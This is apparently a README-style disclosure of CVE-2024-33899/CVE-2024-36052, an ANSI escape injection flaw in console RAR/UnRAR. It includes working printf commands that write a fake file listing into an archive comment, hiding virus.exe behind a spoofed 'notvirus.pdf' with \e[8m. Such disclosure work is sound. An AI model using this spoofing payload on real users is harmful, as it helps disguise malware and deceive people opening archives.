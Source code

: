 # CVE-2024-33899: ANSI Escape Injection Vulnerability in WinRAR

## Overview

On February 28, 2024, RARLAB released an update for WinRAR, addressing an ANSI escape sequence injection vulnerability identified in the console versions of RAR and UnRAR. This vulnerability, tracked as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows systems, affects versions 6.24 and earlier. It allows attackers to spoof screen output or cause a denial of service on Linux and Unix. This issue was resolved in version 7.00. It is important to note that the GUI version of WinRAR and the UnRAR library were not impacted by this vulnerability.

## Understanding the Vulnerability

### ANSI Escape Sequences

If you are familiar with the Linux, Unix, or Windows command line, you’ve likely encountered programs like Vim and Neofetch. These programs utilize ANSI escape sequences to modify text and background color, control the cursor, and create graphical user interfaces within the terminal. Although ANSI escape sequences can create advanced terminal programs, they can also be weaponized, as demonstrated in Stok Fredrik’s DEFCON talk.

### How WinRAR is Affected

WinRAR provides console versions of RAR and UnRAR, which can be used to create and extract RAR archives. RAR files support comments, which are displayed when listing the contents of the archive using the command `unrar l demo.rar`.

#### Vulnerability Demonstration

To check if ANSI escape sequences are filtered out in the comment section, we can use a simple payload that will display "THIS IS GREEN" in green text.

```bash
printf 'Hello \033[32mTHIS IS GREEN\033[0m\007' | rar c demo.rar
Upon executing rar l demo.rar, the output shows "THIS IS GREEN" in green, indicating that the comment field does not filter ANSI escape sequences.

Exploitation
This vulnerability can be exploited in various ways. Here, we will demonstrate an exploit suited for WinRAR.

Creating the Exploit
First, we will place our virus.exe file inside a RAR archive:

bash
Copy code
$ ls 
virus.exe
$ rar a demo.rar virus.exe
Next, we will add the following payload to the comment section:

bash
Copy code
printf 'Archive: demo.rar\nDetails: RAR 5\n\nAttributes      Size       Date   Time   Name\n----------- ---------  ---------- -----  ---------\n-rw-r--r--          7  2024-05-19 16:26  notvirus.pdf\n----------- ---------  ---------- -----  ---------\n                    7                    1\e[8m' | rar c demo.rar
This payload includes a fake listing where virus.exe is replaced with notvirus.pdf. The ANSI escape sequence \e[8m is used to hide all content after the comment section in the output. Consequently, the actual file listing is hidden, and our fake file listing is displayed.

Result
In the screenshot below, you can see a large gap between the output and the shell prompt. This gap is due to the original file listing being outputted but rendered invisible using \e[8m. While experienced command line users may find this suspicious, less experienced users could easily be tricked.


Conclusion
The ANSI escape sequence injection vulnerability in the console versions of RAR and UnRAR posed a significant risk, allowing attackers to spoof output and potentially cause denial of service. This issue, identified as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows, was addressed in WinRAR version 7.00. Users are strongly encouraged to update to the latest version to protect against this vulnerability. The GUI version of WinRAR and the UnRAR library remain unaffected by this issue.
